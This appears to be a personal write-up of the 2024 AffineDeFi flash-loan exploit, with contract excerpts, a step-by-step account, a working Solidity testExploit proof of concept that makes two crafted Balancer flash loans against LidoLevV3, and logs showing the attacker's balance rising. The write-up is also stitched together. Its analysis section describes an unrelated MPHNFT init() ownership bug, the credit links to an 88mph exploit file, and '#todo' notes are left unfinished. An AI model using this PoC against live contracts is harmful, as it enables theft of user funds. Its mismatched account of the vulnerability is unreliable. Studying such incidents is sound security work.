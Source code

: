 
# AffineDeFi


## What's AffineDeFi?

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Flash loan attack



## Analysis

In the MPHNFT contract, there was a vulnerability present in 
init() function, which allowed any user to claim ownership of the contract. 

### Exploited code



IFlashLoanRecipient.sol
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity =0.8.16;

import {ERC20} from "solmate/src/tokens/ERC20.sol";

interface IFlashLoanRecipient {
    /**
     * @dev When `flashLoan` is called on the Vault, it invokes the `receiveFlashLoan` hook on the recipient.
     *
     * At the time of the call, the Vault will have transferred `amounts` for `tokens` to the recipient. Before this
     * call returns, the recipient must have transferred `amounts` plus `feeAmounts` for each token back to the
     * Vault, or else the entire flash loan will revert.
     *
     * `userData` is the same value passed in the `IVault.flashLoan` call.
     */
    function receiveFlashLoan(
        ERC20[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external;
}
```



```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```


# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` #todo whats that

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.invest` case is triggered in the `receiveFlashLoan` function.
- `_addToPosition` is called, which involves borrowing WETH, converting it to wstETH, depositing in AAVE, and borrowing again.

### Second Flash Loan:
- `flashloan` is called wiht `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. #todo whats that

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.declev` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral and converting it back to ETH.

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```


### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
